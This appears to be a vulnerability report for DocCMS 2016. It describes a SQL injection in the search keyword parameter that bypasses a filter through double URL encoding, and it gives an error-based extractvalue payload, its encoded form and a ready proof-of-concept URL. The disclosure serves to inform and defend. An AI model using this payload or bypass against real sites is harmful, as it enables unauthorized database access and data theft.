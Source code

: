 # Summary
DocCMS2016(http://doccms.com/?p=40) has a SQL injection vulnerability at `/search/index.php?keyword`.

# Analyze
You can get the source code of the website here: https://gitee.com/husky/DocCMS/releases/download/2016/DocCms-20160517.rar
In `content\search\index.php`:
![image](https://github.com/user-attachments/assets/8d470560-22d2-4d7c-8198-b640d625254e)


There is a `checkSqlStr` filter for sql query statements:
![image](https://github.com/user-attachments/assets/b68311a2-2678-4272-81b2-74fe90f21a7f)

However, just below the check, a urldecode is done, we can double url encode the payload to bypass the waf:
![image](https://github.com/user-attachments/assets/36d41b31-f4a9-4fa5-8725-a31fa4f3382a)

# Details
Normal keyword search:
![image](https://github.com/user-attachments/assets/fec26571-6b36-4390-a9fd-c0fa520d7ba2)

We use this sql injection payload: 
```
1' and extractvalue(1,concat(0x7e,(select database()),0x7e)) -- -
```
Then double url encode:
![image](https://github.com/user-attachments/assets/9e4dffa1-7f4f-4849-9564-2758477d9256)
```
1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%36%34%25%36%31%25%37%34%25%36%31%25%36%32%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%30%25%32%64%25%32%64%25%32%30%25%32%64
```


![image](https://github.com/user-attachments/assets/3742ed60-443a-4b8d-9609-a92337ccf770)


# PoC
```
/search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%36%34%25%36%31%25%37%34%25%36%31%25%36%32%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%30%25%32%64%25%32%64%25%32%30%25%32%64
```
![image](https://github.com/user-attachments/assets/3742ed60-443a-4b8d-9609-a92337ccf770)
